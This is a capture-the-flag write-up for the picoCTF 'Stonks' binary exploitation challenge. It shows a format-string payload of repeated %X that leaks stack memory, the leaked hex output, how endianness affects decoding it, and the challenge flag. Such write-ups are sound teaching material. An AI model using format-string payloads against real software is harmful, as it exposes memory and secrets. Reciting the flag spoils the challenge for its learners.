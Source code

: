 Challenge is 20 poins under Binary Exploitation Category.

Gives us the source code to look at, and when we run the command it tells us of a stonks buying program. When trying to buy stocks from the program, we are asked to key in the API token we have.

Based on the vuln.c file, it accepts %300s as the input, but what if we keyed in stuff that wasn't strings?

My payload was :
%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X

This is what I got in return:
86BD3B0804B00080489C3F7F29D80FFFFFFFF186BB160F7F37110F7F29DC7086BC180A86BD39086BD3B06F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E3534303664303664FF88007DF7F64AF8F7F3744099A7230010F7DC6BE9F7F380C0F7F295C0F7F29000FF8894A8F7DB758DF7F295C08048ECAFF8894B40F7F4BF09804B000F7F29000F7F29E20FF8894E8F7F51D50F7F2A89099A72300F7F29000804B000FF8894E8

Reversing this from hex to string reveals the flag is there but it's backwards! So we need to decipher it slowly...

After removing all the characters, I got the flag. Basically involves rotating every 4 bytes of data as it is inversed, and this is due to Endianess of a machine. 

Flag: picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}
